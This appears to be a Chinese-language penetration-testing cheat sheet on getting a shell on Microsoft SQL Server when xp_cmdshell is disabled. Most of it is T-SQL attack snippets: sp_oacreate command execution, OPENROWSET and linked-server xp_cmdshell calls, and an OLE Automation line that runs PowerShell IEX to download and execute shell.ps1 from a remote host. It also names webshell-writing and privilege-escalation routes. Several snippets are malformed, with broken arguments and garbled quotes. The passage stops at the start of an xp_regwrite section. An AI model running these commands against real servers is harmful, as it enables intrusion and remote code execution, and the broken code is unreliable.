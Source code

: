 ## web渗透

### 1. MSSQL如果XPCMDSHELL不能用怎么拿SHELL

差异备份写入webshell、日志备份写入getshell

xp_regwrite提权、JobAgent提权、CLR提权、沙盒提权

#### 1. 使用sp_oacreate执行系统命令:

```plsql
EXEC sp_oacreate 'cmd', 'cmd';  
EXEC sp_oamethod @cmd='-c', @cmd_0= 'dir';
EXEC sp_oamethod @cmd='-c', @cmd_0= 'whoami';
EXEC sp_oamethod @cmd=NULL, @cmd_0=NULL;  
EXEC sp_oadestroy @cmd;
```



#### 2. 使用OPENROWSET读取文件内容执行命令:

```plsql
SELECT * FROM OPENROWSET('SQLNCLI', 'Server=127.0.0.1;Trusted_Connection=yes;', 
     'EXEC xp_cmdshell ''cmd.exe /c whoami''')
```

#### 3. 使用Linked Server连接另一个MSSQL服务器执行xp_cmdshell:

```plsql
EXEC ('xp_cmdshell ''whoami'' ') AT [linkedservername]
```

#### 4. 如果有权限的话可以直接执行扩展系统存储过程:

```plsql
EXEC xp_regread 
EXEC xp_dirtree
EXEC xp_subdirs
EXEC xp_fileexist
```

#### 5. 利用OLE Automation执行PowerShell脚本:

```plsql
DECLARE @shell INT;  
EXEC sp_OACreate 'wscript.shell', @shell OUT;   
EXEC sp_OASetProperty @shell, 'run', 'powershell -c "IEX (New-Object Net.WebClient).DownloadString( ́ ́http://ip/shell.ps1 ́ ́)"';   
EXEC sp_OAMethod @shell, 'run'; 
EXEC sp_OADestroy @shell;
```

#### 6.xp_regwrite提权

1. 首先检查是否有xp_regwrite和服务器本地管理员权限,如果没有则无法提权:
